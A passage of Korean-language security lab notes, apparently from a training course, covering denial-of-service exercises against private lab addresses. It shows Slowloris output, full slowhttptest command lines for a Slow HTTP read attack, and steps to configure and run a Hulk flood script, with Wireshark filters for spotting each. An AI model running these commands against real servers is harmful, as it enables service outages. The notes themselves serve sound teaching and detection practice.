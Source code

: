 ```
                Building sockets.                                                                                               
                Building sockets.                                                                                               
                Building sockets.
                Sending data.
Current stats:  Slowloris has now sent 630 packets successfully.
This thread now sleeping for 100 seconds...

                Sending data.
Current stats:  Slowloris has now sent 704 packets successfully.
This thread now sleeping for 100 seconds...


```

###### 와이어샤크

Filter : tcp.port == 80 && ip.src_host == 172.16.10.30 (Flogs:0x019로 검색해도됨)

내리다보면 GET 이 막 있는곳을 찾을 수 있음

Timestamps -> TCP segment data -> 0d 0a 확인하기



#### Slow HTTP read Dos (131p)

root@kali-04:~/Desktop# slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://172.16.10.20/head.php

너무 오래걸려서 다시

root@kali-04:~/Desktop# slowhttptest  -X -c 4000 -u http://172.16.10.20/index.php

와이어 샤크는 Filter : ip.addr == 172.16.10.30 -> 내리다보면 win=0 인게 있어 빨갛게



#### Hulk (132p



ever_hulk.py 바탕화면에 복사

root@kali-04:~/Desktop# vim ever_hulk.py

```
HOST IP 를 172.16.10.20 으로 변경
conn = httplib.HTTPConnection () 여기 안에 IP 172.16.10.20 으로 변경
```

와이어샤크 Filter : http.request

root@kali-04:~/Desktop# python ever_hulk



### 포트 미러링 (149p)
